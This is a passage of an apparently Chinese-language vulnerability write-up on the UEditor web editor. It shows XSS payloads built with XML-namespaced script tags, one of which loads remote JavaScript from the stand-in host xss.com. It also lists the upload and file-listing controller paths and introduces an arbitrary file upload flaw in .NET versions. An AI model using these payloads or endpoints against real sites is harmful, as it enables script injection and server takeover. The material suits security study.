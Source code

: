 URL 跳转：

```
<html>
<head></head>
<body>
<something:script xmlns:something="http://www.w3.org/1999/xhtml">
window.location.href="https://www.t00ls.net/";
</something:script>
</body>
</html>
```

远程加载 Js：

```
<html>
<head></head>
<body>
<something:script src="http://xss.com/xss.js" xmlns:something="http://www.w3.org/1999/xhtml">
</something:script>
</body>
</html>
```

**常用的上传路径：**

```
/ueditor/index.html
/ueditor/asp/controller.asp?action=uploadimage
/ueditor/asp/controller.asp?action=uploadfile
/ueditor/net/controller.ashx?action=uploadimage
/ueditor/net/controller.ashx?action=uploadfile
/ueditor/php/controller.php?action=uploadfile
/ueditor/php/controller.php?action=uploadimage
/ueditor/jsp/controller.jsp?action=uploadfile
/ueditor/jsp/controller.jsp?action=uploadimage
```

**常用的上传路径：**

```
/ueditor/net/controller.ashx?action=listfile
/ueditor/net/controller.ashx?action=listimage
```

**0x03 文件上传漏洞**

**1. NET 版本文件上传**

该任意文件上传漏洞存在于 1.4.3.3、1.5.0 和 1.3.6 版本中，并且只有 **.NET** 版本受该漏洞影响。黑客可以利用该漏洞上传木马文件，执行命令控制服务器。

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdArTQpjtMd0NiaDfRGyibXbkEFQqgib2ibO824R4Ial1oLBsOibSWRmqm5ianMe1jmaElcYpvoEBAxacWQ/640?wx_fmt=png)

ueditor 中已经下架. net 版本，但历史版本中可以下载 1.4.3 版本，但是否是 1.4.3.3 目前还没验证。

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdArTQpjtMd0NiaDfRGyibXbkl4IibWWTpic4s4zb33WkI0XVgWRxjmnjfOH6A4rjsDzm7xkUKaQSLS2g/640?wx_fmt=png)
